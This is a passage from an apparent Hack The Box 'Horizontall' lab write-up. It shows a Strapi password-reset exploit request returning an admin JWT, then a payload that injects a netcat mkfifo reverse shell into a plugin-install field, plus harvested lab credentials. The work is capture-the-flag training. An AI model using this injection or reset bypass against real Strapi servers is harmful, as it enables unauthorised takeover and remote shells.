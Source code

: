 when started editing exploit 50237, noticed that it requires an e-mail address and not the username, which was failing when I tried to reset the password but, debugging calls, noticed that in one of the retuned outputs mentions **admin@horizontall.htb**, which is the administrator of the API.

```python
>>> exploit={"code":{}, "password":newPassword, "passwordConfirmation":newPassword}
>>> r=s.post("{}/admin/auth/reset-password".format(strapiUrl), json=exploit)
>>> r.content
b'{"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQxOTE4ODAzLCJleHAiOjE2NDQ1MTA4MDN9.X-RiBkUxmOsLCfEWaYuYAnCJGWFqYnpMs6qUdb5-4_8","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}'
```

edited script and reexecuted call, as output below, was able to log in to the administration portal using **admin:P@ssword**

```bash
$ python 50237.py
[*] strapi version: 3.0.0-beta.17.4
[*] Password reset for user: admin@horizontall.htb
[*] Setting new password
[+] New password 'P@ssw0rd' set for user admin@horizontall.htb
```

![HTB Horizontall - strapi Admin Panel](https://i.imgur.com/IGt9hHs.png){: .align-center}

Now with active access to the tool, we can use exploit 50238, which requires a JWT token, which was collected from the sign-in request in Burp Suite History.

Verifying the scirpt, I have noticed that it executes commands and then forward the output to local host. To make easier to use it, have edited the file on the following lines, allowing me to get an interactive shell

```python
postData = {
    "plugin": "documentation && $(rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc %s %s >/tmp/f)" % (lhost, lport)
}
```

Checking strapi permissions, noticed taht this user is able to read contents of user **developer**, which is the directory where `user.txt` file is located. Gave it a try and was able to read the user flag

```bash
$ cat /home/developer/user.txt
<redacted>
```

## Root Flag

After submitting the user flag, started to enumerate box for root rights. As usual, started by checking application credentials so we could harvest other credentials to be reused but, with the password obtained for user **developer:#J!:F9Zt2u** via strapi development instance (/opt/strapi/myapi/config/environments/development/database.json), just contained admin@horizontall.htb credentails
